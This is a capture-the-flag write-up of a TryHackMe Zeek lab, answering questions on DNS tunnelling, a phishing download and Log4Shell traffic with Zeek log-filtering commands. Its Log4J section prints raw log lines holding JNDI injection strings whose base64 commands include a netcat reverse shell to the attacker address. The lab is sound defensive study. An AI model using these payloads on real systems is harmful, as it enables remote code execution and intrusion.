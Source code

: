 ```yaml
---
parent: "[[CTFs - THM]]"
resources:
---
```


```bash
# PLATFORM          . THM 
# CTF NAME          . Zeek Exercises
# DESCRIPTION       . Put your Zeek skills into practice and analyse network traffic.
# DIFFICULTY        . Medium
# CTF LINK          . https://tryhackme.com/r/room/zeekbroexercises
```

# ANOMALOUS DNS 
## An alert triggered: "Anomalous DNS Activity".

### Investigate the **dns-tunneling.pcap** file. Investigate the **dns.log** file. What is the number of DNS records linked to the IPv6 address?

- The IPv6 are using AAAA dns requests, so I decided to see how many AAAA records are in the log.

```
cat dns.log | grep AAAA | wc -l
```

### Investigate the **conn.log** file. What is the longest connection duration?

- After analising the header of the `conn.log` to see what fields are available, i found the answer using

```
cat conn.log | zeek-cut duration | sort -r | head -1
```

### Investigate the **dns.log** file. Filter all unique DNS queries. What is the number of unique domain queries?

```
cat dns.log | zeek-cut query | rev | cut -d '.' -f1-2 | rev | sort | uniq 
```

- Cut the `query` field from `dns.log`, then reverse the content and separate the fields by `.` and print only the first and second fields (`cut -d '.' -f1-2`)
- Then, reverse again (so it's written normal), `sort` and eliminate duplicates (`uniq`)

- Pipe an additional `wc -l` at the end of the command if you want to get the exact number of unique domains --- the comand above lists only them. 

### There are a massive amount of DNS queries sent to the same domain. This is abnormal. Let's find out which hosts are involved in this activity. Investigate the **conn.log** file. What is the IP address of the source host?

- A simple `cat conn.log` file will be enough.

- However, I wanted to count the number of each occurences for each IP since I felt like it was too easy this way.
- I quickly found out that this is useless

```
cat conn.log | zeek-cut id.orig_h | sort | uniq

10.20.57.3
fe80::202a:f0b1:7d9c:bd93
```

- We only have 2 IPs, and we care about the IPv4 one.

# PHISHING

## An alert triggered: "Phishing Attempt".

### Investigate the logs. What is the suspicious source address? Enter your answer in **defanged format**.

- I took a look around the logs.  By checking `http.log`, I found that `/Documents/Invoice&MSO-Request.doc` and `knr.exe` were downloaded from `smart-fax.com` whose IP is `10.6.27.102`.

### Investigate the **http.log** file. Which domain address were the malicious files downloaded from? Enter your answer in defanged format.

- Answered above :) 

### Investigate the malicious document in VirusTotal. What kind of file is associated with the malicious document?

- I've read the hint since I couldn't find anything helpful in the log files.
- The hint also suggested that I should check the hash of the files, which I already tried, but they're missing from log files.
- Fun fact, I even tried accessing the website from TOR to download the files, but it's access forbidden from TOR. :)  
- However, I then realised there's a hash-demo.zeek file and I've used it in the following commnad

```
zeek -C -r phishing.pcap hash-demo.zeek
```

- Then, inside the `files.log`, I could find the hashes for the files.
- By searching the `.doc`'s file hash on VT and navigating to relations tab, we can find the answer to this question.

### Investigate the extracted malicious **.exe** file. What is the given file name in Virustotal?

- The name is under the hash in the upper header, where the number of detections and the community score is shown.

### Investigate the malicious **.exe** file in VirusTotal. What is the contacted domain name? Enter your answer in **defanged format**.

- Can be found in the Community tab. Take only the domain.TLD, not the subdomain.domain.TLD

### Investigate the http.log file. What is the request name of the downloaded malicious **.exe** file?

- Answered in the first question.

# LOG4J

## **An alert triggered:** "Log4J Exploitation Attempt".

### Investigate the log4shell.pcapng file with detection-log4j.zeek script. Investigate the signature.log file. What is the number of signature hits?

- The answer is the number of lines in the file. :) 

### Investigate the **http.log** file. Which tool is used for scanning?

- Check the user agent :) 

### Investigate the **http.log** file. What is the extension of the exploit file?

- Take a look at the `uri` column. We can filter the unique values by using

```
cat http.log | zeek-cut uri | uniq
```

- The answer is clear from the output of the command above.

### Investigate the log4j.log file. Decode the base64 commands. What is the name of the created file?

- I took a shorcut here and grepped the content by `==`.

```
cat log4j.log | grep == 
```

```
1640025554.661073	CXWBTu1EqLrSi8l38i	/	192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==	192.168.56.102:389	192.168.56.102	389	GET	T	X-API-VERSION	${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/d2hpY2ggbmMgPiAvdG1wL3B3bmVkCg==}	F	T

1640026858.960398	CTWSGr3MDPIcJqo5H1	/	192.168.56.102:389/Basic/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==	192.168.56.102:389	192.168.56.102	389	GET	T	X-API-VERSION	${jndi:ldap://192.168.56.102:389/Basic/Command/Base64/bmMgMTkyLjE2OC41Ni4xMDIgODAgLWUgL2Jpbi9zaCAtdnZ2Cg==}	F	T
```

- One of these base64 strings holds the answer. Decode them :) 

